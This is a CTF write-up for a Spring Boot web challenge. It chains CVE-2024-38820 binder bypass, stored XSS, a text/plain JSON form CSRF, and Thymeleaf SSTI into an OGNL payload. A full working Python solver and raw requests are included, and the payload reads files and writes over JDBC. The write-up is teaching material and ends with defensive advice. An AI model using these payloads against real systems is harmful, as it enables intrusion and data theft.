

> Note: I solved this challenge with LLM

Confession App was one of the more satisfying finals web challenges because the solve path looked messy at first, but became very deterministic once the moving parts were understood. The final chain was:

- Spring `@InitBinder` bypass with CVE-2024-38820
- stored HTML injection through `th:utext`
- a very constrained stored XSS in `confessionsCount`
- admin bot interaction
- admin-only Thymeleaf SSTI
- OGNL-based file read and database write-back

This was also the challenge where I got first blood.



## Challenge Information

- Category: Web Exploitation
- Difficulty: Hard
- Event: Final ARA 7.0
- Attachments / source code: full Spring Boot app, bot, and docker compose setup.
- Goal: make the admin context execute the hidden report-generation sink and recover the flag

## Initial Analysis

The application looked like a standard Spring Boot site:

- register and login
- create confessions
- view profile
- public-ish user detail pages
- an admin report page
- a separate bot service that logs in as admin and visits `/user/{id}`

The key architectural clue was in the bot:

```javascript
await page.goto("http://web:8080/login", ...);
await page.type('input[name="username"]', "admin");
await page.type('input[name="password"]', ADMIN_PASSWORD);
...
await page.goto(`http://web:8080/user/${userid}`, ...);
```

So the bot always logs in as the real admin and then visits a user detail page chosen by us. That means any stored issue on `/user/{id}` can execute in an authenticated admin browser.

The next important point was that the user detail page had two different dangerous rendering paths:

1. `isAdmin` was rendered unescaped:

```html
<span th:utext="${user.isAdmin}"></span>
```

2. `confessionsCount` was injected into an inline script:

```html
<script th:attr="nonce=${cspNonce}">
  console.log("[DEBUG] Confession Count: [(${user.confessionsCount})]");
</script>
```

Those two sinks are very different. `isAdmin` gives stored HTML injection, while `confessionsCount` gives a tiny JavaScript injection primitive inside an already nonced script block.

## Recon / Enumeration

Because the service was already down, this section is reconstructed from source review and the included solver rather than fresh traffic captures.

The important routes were:

- `POST /register/save`
- `POST /login`
- `GET /profile`
- `POST /profile/update`
- `GET /user/{id}`
- `POST /visit` on the bot service
- `POST /admin/report/generate`

The first route I cared about was profile update:

```java
@PostMapping("/profile/update")
public String updateProfile(@ModelAttribute("user") User updateDto, ...)
```

That looks small, but it matters a lot. The controller renders a DTO in the profile page, but the update handler binds directly into the full `User` entity. That means fields that are not present in the form may still be mass-assigned if we can sneak them through the binder.

The second route was the admin-only report generation endpoint:

```java
@PostMapping(value = "/admin/report/generate")
public ResponseEntity<byte[]> generateReport(@RequestBody String body)
```

Any admin-only JSON endpoint that manually builds template strings is immediately suspicious.

## Vulnerability Discovery

The final exploit depended on four separate bugs and one delivery trick.

### 1. `@InitBinder` bypass on `isAdmin`

The application tried to block direct binding to `isAdmin`:

```java
@InitBinder({"user"})
public void initBinder(WebDataBinder binder) {
    binder.setDisallowedFields(new String[]{"username", "id", "isAdmin"});
}
```

But this challenge ran on a Spring version affected by CVE-2024-38820. Using the Turkish capital dotted I, `İsAdmin`, bypasses the disallowed field check while still resolving to `isAdmin` during binding.

So a request containing:

```text
İsAdmin=<payload>
```

can still populate `User.isAdmin`.

That is the first critical bug because `UserService.updateProfile()` later trusts the bound entity:

```java
if (updateDto.getIsAdmin() != null && !updateDto.getIsAdmin().isEmpty()) {
    user.setIsAdmin(updateDto.getIsAdmin());
}
```

### 2. Stored HTML injection via `th:utext`

Once `isAdmin` is attacker-controlled, the detail page renders it with `th:utext`:

```html
<span th:utext="${user.isAdmin}"></span>
```

That means the field is not escaped. So instead of just storing `"true"` or `"false"`, we can store arbitrary HTML.

Important nuance: this does **not** make us admin in the Spring Security sense. Role assignment is based on user id, not this field:

```java
String role = (user.getId() != null && user.getId() == 1) ? "ROLE_ADMIN" : "ROLE_USER";
```

So `isAdmin` is only useful as a stored HTML sink, not as an authorization bypass.

### 3. Constrained stored XSS in `confessionsCount`

`confessionsCount` is limited to 20 characters in the model:

```java
@Column(name = "confessions_count", length = 20)
private String confessionsCount;
```

and lands inside this inline script:

```html
console.log("[DEBUG] Confession Count: [(${user.confessionsCount})]");
```

The solver used this 19-character payload:

```javascript
");parent.s.click("
```

Why it works:

- it closes the existing string inside `console.log`
- it executes `parent.s.click("")` in the iframe context
- it stays within the 20-character limit
- it does not need a new `<script>` tag, so the CSP nonce does not block it

That is a very compact and elegant primitive.

### 4. Admin-only Thymeleaf SSTI

The report generator parses JSON, concatenates `title` directly into HTML, then processes it with a string-based Thymeleaf engine:

```java
String htmlContent = "<html><body>" +
        "<h1>Report Title: " + title + "</h1>" +
        ...

TemplateEngine stringEngine = new TemplateEngine();
stringEngine.setDialects(java.util.Collections.singleton(new SpringStandardDialect()));
StringTemplateResolver resolver = new StringTemplateResolver();
stringEngine.setTemplateResolver(resolver);

String processedHtml = stringEngine.process(htmlContent, context);
```

That is a classic server-side template injection. The attacker controls `title`, `title` is embedded into a template string, and then Thymeleaf evaluates the whole thing.

### 5. OGNL execution through Thymeleaf

The solver wrapped the final expression like this:

```text
[[${T(ognl.Ognl).getValue('...expr...',null)}}]]
```

This uses Spring EL to reach `ognl.Ognl`, and then hands execution to an OGNL expression. The OGNL payload:

1. lists `/` to find a file starting with `flag`
2. reads the flag
3. opens a JDBC connection to PostgreSQL
4. writes the flag into `users.is_admin`

That last step is the key to making the exploit deterministic. Instead of trying to exfiltrate through the bot or parse binary PDF data mid-flight, the payload stores the flag back into a field we already know how to read.

## Exploitation

The cleanest solve uses two attacker accounts.

### Step 1: Create two users

I used:

- User A: stores the HTML form and iframe in `isAdmin`
- User B: stores the short XSS trigger in `confessionsCount`

Why two users?

- `/user/{id}` only allows the owner or admin id 1 to view the page
- the bot will visit User A's page
- inside User A's page, we want to load User B in an iframe and use B's inline-script injection to click a form button in A's parent page

This split makes the browser flow predictable.

### Step 2: Put the short trigger into User B

User B's `confessionsCount` was set to:

```javascript
");parent.s.click("
```

When `/user/{BID}` is loaded inside an iframe, the page's own nonced inline script becomes:

```javascript
console.log("[DEBUG] Confession Count: ");parent.s.click(""); 
```

So the iframe executes `parent.s.click("")`, which programmatically clicks a button with id `s` in the parent document.

### Step 3: Build the SSTI / OGNL payload

The OGNL expression used by the solver was:

```text
#f=(new java.io.File("/")).list().{?#this.startsWith("flag")}[0],
#g=new java.util.Scanner(new java.io.File("/"+#f)).nextLine(),
#c=@java.sql.DriverManager@getConnection("jdbc:postgresql://db/confession_db","postgres","postgres"),
#s=#c.createStatement(),
#s.executeUpdate("update users set is_admin='"+#g+"'"),
#s.close(),#c.close(),"OK"
```

That expression is then wrapped for Thymeleaf:

```text
[[${T(ognl.Ognl).getValue('...escaped...',null)}}]]
```

The reason for writing to the database instead of printing directly is practical:

- the result is generated inside a PDF workflow
- reading the flag back from a normal user page is simpler and more reliable
- updating every row is shorter than building a user-specific SQL query, which helps stay under the 600-character `is_admin` column limit

### Step 4: Turn a plain HTML form into a JSON POST

`/admin/report/generate` expects a JSON body, but from stored HTML we only get browser primitives like forms and iframes.

The solve used an old but useful trick:

```html
<form method=POST action=/admin/report/generate enctype=text/plain>
  <input name='{"title":"<payload>","a":"' value='"}'>
  <button id=s></button>
</form>
```

With `enctype=text/plain`, the form submission body becomes text that looks like JSON. The crafted `name` and `value` combine into:

```json
{"title":"<payload>","a":""}
```

which is valid enough for Jackson to parse.

This avoids needing JavaScript to build a `fetch()` request from the admin browser.

### Step 5: Store the HTML form + iframe in User A via CVE-2024-38820

User A's `isAdmin` field was updated with the binder-bypass field name:

```text
İsAdmin=<html payload>
```

That HTML payload contained:

- the `text/plain` JSON form targeting `/admin/report/generate`
- a button with `id=s`
- an iframe pointing to `/user/{BID}`

When the admin bot later visits `/user/{AID}`, the page renders:

- User A's stored HTML in `th:utext`
- the iframe to User B

Then User B's inline-script payload runs inside the iframe and clicks the parent button, submitting the admin-only report form.

### Step 6: Trigger the bot

The bot endpoint is simple:

```http
POST /visit HTTP/1.1
Content-Type: application/x-www-form-urlencoded

userid=<AID>
```

The bot logs in as admin, visits `/user/{AID}`, loads the iframe, executes the small JavaScript trigger from B, and submits the malicious admin report request.

### Step 7: Read the flag back from User A's page

The OGNL payload updates:

```sql
update users set is_admin='<flag>'
```

So after the admin visit completes, User A can simply reload:

```text
/user/{AID}
```

and extract the flag from the rendered `is_admin` field.

This is why the solve is deterministic:

- no password guessing
- no timing race
- no webhook dependency
- no browser-output parsing beyond polling a page we already control

## Request Examples

User B profile update:

```http
POST /profile/update HTTP/1.1
Host: challenge.ara-its.id:8080
Content-Type: application/x-www-form-urlencoded

password=pass123&confessionsCount=%22%29%3Bparent.s.click%28%22
```

User A binder-bypass update:

```http
POST /profile/update HTTP/1.1
Host: challenge.ara-its.id:8080
Content-Type: application/x-www-form-urlencoded

password=pass123&confessionsCount=0&İsAdmin=<html payload>
```

Bot trigger:

```http
POST /visit HTTP/1.1
Host: challenge.ara-its.id:3030
Content-Type: application/x-www-form-urlencoded

userid=<AID>
```

## Solver Script

I attached only the remote solver used for the challenge as [solve_remote.py](./solve_remote.py). The full script is included below.

```python
#!/usr/bin/env python3
import os
import random
import re
import string
import time
import ssl
from urllib.request import urlopen

import requests

ctx = ssl._create_unverified_context()
WEB_URL = os.getenv("WEB_URL", "http://challenge.ara-its.id:8080")
BOT_URL = os.getenv("BOT_URL", "http://challenge.ara-its.id:3030")
PASSWORD = os.getenv("USER_PASSWORD", "pass123")
TIMEOUT = 12
FLAG_RE = re.compile(r"ARA7\{[^<}]+\}")


def rand_user(prefix: str) -> str:
    alphabet = string.ascii_lowercase + string.digits
    return prefix + "".join(random.choice(alphabet) for _ in range(8))


def make_session() -> requests.Session:
    s = requests.Session()
    s.headers["User-Agent"] = "Mozilla/5.0"
    return s


def register_user(username: str, password: str) -> None:
    r = requests.post(
        f"{WEB_URL}/register/save",
        data={"username": username, "password": password},
        allow_redirects=False,
        timeout=TIMEOUT,
    )
    if r.status_code not in (302, 303):
        raise RuntimeError(f"register failed for {username}: HTTP {r.status_code}")


def login(sess: requests.Session, username: str, password: str) -> None:
    r = sess.post(
        f"{WEB_URL}/login",
        data={"username": username, "password": password},
        allow_redirects=False,
        timeout=TIMEOUT,
    )
    if r.status_code not in (302, 303):
        raise RuntimeError(f"login failed for {username}: HTTP {r.status_code}")


def my_id(sess: requests.Session) -> int:
    r = sess.get(f"{WEB_URL}/profile", timeout=TIMEOUT)
    m = re.search(r'name="id" value="(\d+)"', r.text)
    if not m:
        raise RuntimeError("could not parse user id from /profile")
    return int(m.group(1))


def main() -> int:
    user_a = rand_user("a")
    user_b = rand_user("b")

    print(f"[+] creating users: {user_a}, {user_b}")
    register_user(user_a, PASSWORD)
    register_user(user_b, PASSWORD)

    sess_a = make_session()
    sess_b = make_session()
    login(sess_a, user_a, PASSWORD)
    login(sess_b, user_b, PASSWORD)

    aid = my_id(sess_a)
    bid = my_id(sess_b)
    print(f"[+] ids: A={aid}, B={bid}")

    # Fits confessions_count(20) and executes in iframe context.
    xss_trigger = '");parent.s.click("'
    r = sess_b.post(
        f"{WEB_URL}/profile/update",
        data={"password": PASSWORD, "confessionsCount": xss_trigger},
        allow_redirects=False,
        timeout=TIMEOUT,
    )
    if r.status_code not in (302, 303):
        raise RuntimeError(f"user B profile update failed: HTTP {r.status_code}")

    # OGNL runs inside admin report generation:
    # 1) discover /flag* filename
    # 2) read flag
    # 3) write flag into users.is_admin for all users (shorter payload)
    expr = (
        '#f=(new java.io.File("/")).list().{?#this.startsWith("flag")}[0],'
        '#g=new java.util.Scanner(new java.io.File("/"+#f)).nextLine(),'
        '#c=@java.sql.DriverManager@getConnection("jdbc:postgresql://db/confession_db","postgres","postgres"),'
        '#s=#c.createStatement(),'
        '#s.executeUpdate("update users set is_admin=\'"+#g+"\'"),'
        '#s.close(),#c.close(),"OK"'
    )
    expr_spel = expr.replace("'", "''")
    title_payload = f"[[${{T(ognl.Ognl).getValue('{expr_spel}',null)}}]]"

    # Name becomes JSON body via enctype=text/plain.
    # Escape for JSON string first, then for single-quoted HTML attribute.
    json_title = title_payload.replace("\\", "\\\\").replace('"', '\\"')
    json_title_attr = json_title.replace("'", "&#39;")

    html_payload = (
        "<form method=POST action=/admin/report/generate enctype=text/plain>"
        f"<input name='{{\"title\":\"{json_title_attr}\",\"a\":\"' value='\"}}'>"
        "<button id=s></button></form>"
        f"<iframe src=/user/{bid}></iframe>"
    )
    if len(html_payload) > 600:
        raise RuntimeError(f"payload too long for is_admin(600): {len(html_payload)}")

    # CVE-2024-38820 InitBinder bypass: Turkish capital dotted I.
    r = sess_a.post(
        f"{WEB_URL}/profile/update",
        data={"password": PASSWORD, "confessionsCount": "0", "İsAdmin": html_payload},
        allow_redirects=False,
        timeout=TIMEOUT,
    )
    if r.status_code not in (302, 303):
        raise RuntimeError(f"user A binder bypass update failed: HTTP {r.status_code}")

    print("[+] triggering bot visit")
    rb = requests.post(
        f"{BOT_URL}/visit",
        data={"userid": str(aid)},
        timeout=TIMEOUT + 10,
    )
    print(f"[+] bot response: HTTP {rb.status_code}")

    # Poll until admin-side action completes.
    for _ in range(12):
        page = sess_a.get(f"{WEB_URL}/user/{aid}", timeout=TIMEOUT).text
        m = FLAG_RE.search(page)
        if m:
            print(m.group(0))
            return 0
        time.sleep(1)

    raise RuntimeError("flag not found after bot trigger")


if __name__ == "__main__":
    raise SystemExit(main())
```

The important parts are not the Python mechanics themselves, but the chain they encode:

- tiny XSS in B
- JSON-form trick in A
- binder bypass with `İsAdmin`
- admin bot visit
- report-generation SSTI
- write-back to database

## Getting the Flag

Once the bot finished its visit and the OGNL expression updated the database, the flag appeared directly in User A's rendered `is_admin` field.

The captured flag was:

```text
ARA7{sorry_if_i_made_the_challenge_too_easy_for_you_sometime_i_will_make_it_harder_8070f26ca8c8f1fd04f8c141171ae181}
```

## Key Takeaways

- `@InitBinder` filters are not a complete defense if the underlying framework has a binding bypass.
- Rendering user-controlled data with `th:utext` is already dangerous, even if the field name sounds harmless.
- CSP does not magically save a page when attacker data is inserted into an existing trusted script block.
- Admin-only endpoints that manually concatenate template strings are perfect SSTI candidates.
- Writing the result back into application state is often cleaner than trying to exfiltrate during the exploit itself.

From a defensive perspective, the application should have:

- patched Spring against CVE-2024-38820
- bound profile updates to a strict DTO instead of the full entity
- rendered `isAdmin` with escaped output, not `th:utext`
- kept untrusted data out of inline scripts
- avoided processing attacker-influenced strings with `StringTemplateResolver`

## Final Thoughts

Confession App was a good finals challenge because it forced careful reasoning about browser context, framework internals, and data flow. None of the individual bugs were enough on their own. The clean solve came from chaining them in the right order and keeping the final exfiltration step boring: just write the flag somewhere we already know how to read.
